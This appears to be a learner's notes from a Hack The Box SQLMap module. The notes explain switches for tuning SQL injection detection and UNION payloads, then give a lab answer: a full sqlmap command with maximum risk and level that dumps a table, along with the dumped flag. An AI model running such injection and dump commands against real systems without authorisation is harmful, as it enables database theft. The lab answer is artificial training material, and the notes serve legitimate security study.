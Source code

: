 **Titles**

If the difference between responses can be seen by inspecting the HTTP page titles, the switch `--titles` could be used to instruct the detection mechanism to base the comparison based on the content of the HTML tag `<title>`.

**Strings**

In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).

**Text-only**

When dealing with a lot of hidden content, such as certain HTML page behaviors tags (e.g. `<script>`, `<style>`, `<meta>`, etc.), we can use the `--text-only` switch, which removes all the HTML tags, and bases the comparison only on the textual (i.e., visible) content.

**Techniques**

In some special cases, we have to narrow down the used payloads only to a certain type. For example, if the time-based blind payloads are causing trouble in the form of response timeouts, or if we want to force the usage of a specific SQLi payload type, the option `--technique` can specify the SQLi technique to be used.

For example, if we want to skip the time-based blind and stacking SQLi payloads and only test for the boolean-based blind, error-based, and UNION-query payloads, we can specify these techniques with `--technique=BEU`.

**UNION SQLi Tuning**

In some cases, `UNION` SQLi payloads require extra user-provided information to work. If we can manually find the exact number of columns of the vulnerable SQL query, we can provide this number to SQLMap with the option `--union-cols` (e.g. `--union-cols=17`). In case that the default "dummy" filling values used by SQLMap -`NULL` and random integer- are not compatible with values from results of the vulnerable SQL query, we can specify an alternative value instead (e.g. `--union-char='a'`).

Furthermore, in case there is a requirement to use an appendix at the end of a `UNION` query in the form of the `FROM <table>` (e.g., in case of Oracle), we can set it with the option `--union-from` (e.g. `--union-from=users`).\
Failing to use the proper `FROM` appendix automatically could be due to the inability to detect the DBMS name before its usage.

**Questions**

What's the contents of table flag5? (Case #5)

```bash
sqlmap -u 'http://83.136.254.199:51959/case5.php?id=1' --risk=3 --level=5 -T flag5 --no-cast --batch --dump
Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{709_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+
```
